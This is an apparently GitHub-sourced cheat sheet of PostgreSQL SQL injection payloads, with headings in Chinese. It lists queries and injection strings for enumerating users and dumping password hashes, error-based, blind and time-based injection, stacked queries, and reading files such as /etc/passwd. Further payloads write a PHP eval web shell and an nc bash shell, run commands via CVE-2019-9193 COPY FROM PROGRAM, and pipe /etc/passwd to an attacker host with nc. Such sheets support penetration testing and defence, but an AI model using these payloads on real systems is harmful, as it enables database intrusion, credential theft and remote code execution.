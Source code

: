 ##### 注释符
  	--
	/**/  
##### 版本
  	SELECT version()
##### 当前用户
	SELECT user;
	SELECT current_user;
	SELECT session_user;
	SELECT usename FROM pg_user;
	SELECT getpgusername();
##### 列出用户
	SELECT usename FROM pg_user
##### 列出密码哈希
	SELECT usename, passwd FROM pg_shadow 
##### 列出数据库管理员帐户
	SELECT usename FROM pg_user WHERE usesuper IS TRUE
##### 列出权限
	SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
##### 检查当前用户是否为超级用户
	SHOW is_superuser; 
	SELECT current_setting('is_superuser');
	SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
##### 数据库名
	SELECT current_database()
##### 列出数据库
	SELECT datname FROM pg_database
##### 列出表
	SELECT table_name FROM information_schema.tables
##### 列出字段
	SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
##### 基于报错类型
	,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
	,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
	,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
	,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

	' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
	' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
	' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
	' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
	XML Helper
	select query_to_xml('select * from pg_user',true,true,''); -- 将所有结果作为单行xml 返回
	select database_to_xml(true,true,''); -- 以XML形式列出当前数据库
	select database_to_xmlschema(true,true,''); -- 以XML schema形式列出当前数据库
##### 盲注
	' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
	' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
##### 基于时间盲注
	AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
	AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
##### 堆查询
	使用分号“;” 添加另一个查询
	http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
##### 读取文件
	select pg_ls_dir('./');
	select pg_read_file('PG_VERSION', 0, 200);
	select pg_read_file('postgresql.auto.conf',0,100);  行数
	早期版本不接受pg_read_file或pg_ls_dir中的绝对路径，新版本允许超管和在default_role_read_server_files组的用户读文件
	CREATE TABLE temp(t TEXT);
	COPY temp FROM '/etc/passwd';
	SELECT * FROM temp limit 1 offset 0;

	SELECT lo_import('/etc/passwd');
	SELECT lo_get(16420);
	SELECT * from pg_largeobject;
##### 列目录
  	select pg_ls_dir('/etc');
##### 写文件
	CREATE TABLE pentestlab (t TEXT);
	INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
	insert into shell values($$<?php @eval($_POST[1]);?>$$);
	SELECT * FROM pentestlab;
	COPY pentestlab(t) TO '/tmp/pentestlab';
	或
	COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
	copy (select '<?php phpinfo();?>') to '/var/www/html/shell.php';

	SELECT lo_from_bytea(43210, 'your file data goes in here');
	SELECT lo_put(43210, 20, 'some other data'); 
	SELECT lo_export(43210, '/tmp/testexport'); 
##### 命令执行
	CVE-2019–9193
	DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
	CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
	COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
	SELECT * FROM cmd_exec;                 -- [Optional] View the results
	DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
	使用 libc.so.6
	CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
	SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
##### bypass 过滤器
	使用 CHR
	SELECT CHR(65)||CHR(66)||CHR(67);
	版本>8 PostgreSQL使用$符合
	SELECT $$This is a string$$
	SELECT $TAG$This is another string$TAG$